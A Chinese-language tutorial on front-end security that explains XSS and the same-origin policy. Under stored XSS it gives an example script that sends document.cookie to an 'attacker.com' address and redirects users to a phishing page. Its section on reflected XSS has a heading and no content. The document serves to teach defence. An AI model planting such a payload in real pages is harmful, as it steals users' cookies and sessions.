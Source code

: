 # 前端安全

## 概述

前端项目安全主要包括 XSS（跨站脚本攻击）、CSRF（跨站请求伪造）等。

## XSS

### XSS 介绍

XSS（Cross-site scripting，跨站脚本攻击）指攻击者通过向站点注入恶意脚本，使其在站点中执行，从而执行恶意操作的行为。

跨站脚本攻击跟浏览器的[同源策略][same-origin_policy]有关，所谓同源策略，指的是两个站点的协议、域名和端口号相同。只要三者中任意一个不同，就违背同源策略，也就是我们常说的“跨域”。比如，对于 `http://store.company.com/dir/page.html`，分析下面这几种情况。

- `http://store.company.com/dir2/other.html` 同源，只有 URL 路径不同。
- `http://store.company.com/dir/inner/another.html` 同源，只有 URL 路径不同。
- `https://store.company.com/page.html` 非同源，协议不同。
- `http://store.company.com:81/dir/page.html` 非同源，端口不同，示例站点端口号为 `80`，此端口号为 `81`。
- `http://news.company.com/dir/page.html` 非同源，域名不同。

同源策略的提出，主要是为了安全性的考虑，比如，它能够防止恶意站点从其他站点或者服务器窃取数据。具体来说，同源策略有下面这些限制。

- 无法接触非同源网页的 DOM。
- 无法读取非同源网页的 Cookie、LocalStorage 和 IndexedDB。
- 无法向非同源地址发送 AJAX 请求（可以发送，但浏览器会拒绝接受响应）。

XSS 攻击的成功实施必须满足两个条件。

1. 恶意代码被注入到站点。
2. 恶意代码没有被执行消毒操作，使其被当作脚本代码执行。

![XSS 攻击发生时，攻击者能够访问其他站点的 DOM、Cookie 和 Storage 数据](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS/xss.svg)

XSS 攻击通常分为三种类型：存储型 XSS (Stored XSS)、反射型 XSS (Reflected XSS)和基于 DOM 的 XSS (DOM-based XSS)。

#### 存储型 XSS

存储型 XSS（Stored XSS）是最危险的 XSS 攻击类型。攻击脚本被永久存储在目标服务器上（如数据库、消息论坛、访客日志等），当其他用户访问包含恶意脚本的页面时，脚本会在他们的浏览器中执行。

```html
<!-- 攻击者在评论中提交恶意脚本 -->
<script>
  // 窃取用户 cookie
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
  
  // 重定向到恶意网站
  window.location.href = 'http://attacker.com/phishing';
</script>
```

#### 反射型 XSS


[same-origin_policy]: https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
[DOMPurify]: https://github.com/cure53/DOMPurify